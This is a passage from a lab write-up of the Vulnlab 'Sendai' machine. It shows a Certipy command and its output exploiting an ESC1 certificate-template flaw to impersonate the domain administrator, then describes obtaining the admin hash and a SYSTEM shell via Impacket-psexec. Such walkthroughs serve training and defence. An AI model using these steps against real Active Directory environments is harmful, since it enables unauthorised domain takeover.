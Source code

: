 Now, we were able to exploit this as an ESC1 certificate vulnerability.

<img src="attachments/ada21b2aeee9838e1ca153f1a3c4269f.png" />

We requested the vulnerable certificate, impersonating the administrator user.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sendai]
└─$ certipy-ad req -u 'clifford.davey' -p RFmoB2WplgE_3p -dc-ip 10.10.126.132 -ca sendai-DC-CA -template SendaiComputer -upn administrator -target dc.sendai.vl -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Then, we were able to request the administrator's hash using the exported certificate.

<img src="attachments/7568232a4e6b5a61754c814d157866fc.png" />

Tried using Evil-WinRM with pass-the-hash but failed.  

We used Impacket-psexec and were able to get a shell as `NT AUTHORITY\SYSTEM` on the DC and retrieved the root flag.
